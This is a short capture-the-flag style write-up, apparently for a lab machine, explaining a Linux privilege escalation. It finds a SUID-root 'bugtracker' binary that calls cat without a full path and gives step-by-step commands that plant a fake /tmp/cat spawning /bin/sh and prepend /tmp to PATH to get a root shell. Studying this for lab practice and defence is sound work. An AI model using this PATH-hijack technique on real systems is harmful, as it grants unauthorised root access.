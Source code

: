 # Privilege Escalation
# SUID
Found a file with `find / -group bugtracker 2>/dev/null` that only members of `bugtracker` can execute. It has the SUID flag with root privileges.

```ad-info
SUID allows an alternate user to run an executable with the same permissions as the owner of the file instead of the permissions of the alternate user.
```

The file accept user input as a name of the file that will be read using `cat`, however, it does not specifies the whole path. Might be able to exploit this.

1. Create a file in /tmp directory named `cat` with this content:
```bash
/bin/sh
```

2. Set execute privileges:
```bash
$ chmod +x cat
```

3. Add /tmp directory to $PATH environmental variable.
```bash
export PATH=/tmp:$PATH
```
```ad-info
PATH is an enviroment variable on Unix-like operating systems, DOS, OS/2, and Microsoft Windows, specifying a set of directorioes where executable programs are located.
```

4. Execute `bugtracker` from `/tmp` directory


